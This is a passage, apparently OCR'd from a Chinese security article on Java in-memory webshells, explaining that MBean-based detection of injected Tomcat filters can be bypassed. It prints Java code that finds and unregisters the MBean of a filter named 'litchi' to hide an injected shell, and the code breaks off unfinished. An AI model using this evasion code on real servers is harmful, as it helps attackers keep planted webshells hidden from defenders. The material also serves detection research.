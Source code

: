 >  ![](/img/忆往昔_JAVA内存马的一生/Snipaste_add.png)
>
>  并且该种检测方式被绕过：因为Mbean注册之后是可以卸载的。
>
>  参考长亭科技之前发的文章实现如下：
>
>  ```java
>  import javax.management.MBeanServer;
>  import javax.management.ObjectName;
>  import java.util.Set;
>  public class UnRegister {
>   static  {
>       try{
>       Class registryClass = Class.forName("org.apache.tomcat.util.modeler.Registry");
>       MBeanServer mBeanServer = (MBeanServer) registryClass.getMethod("getMBeanServer").invoke( registryClass.getMethod("getRegistry", Object.class, Object.class).invoke(null,null,null));
>       Set<ObjectName> objectNameSet = null;
>           objectNameSet = mBeanServer.queryNames(null, null);
>           for (ObjectName objectName : objectNameSet) {
>               if ("Filter".equals(objectName.getKeyProperty("j2eeType"))) {
>                   Object filterName = mBeanServer.getAttribute(objectName, "filterName");
>                   if ("litchi".equals((String) filterName)) {
>                       mBeanServer.unregisterMBean(objectName);
>                   }
>               }
>           }
>       }catch (Exception e) {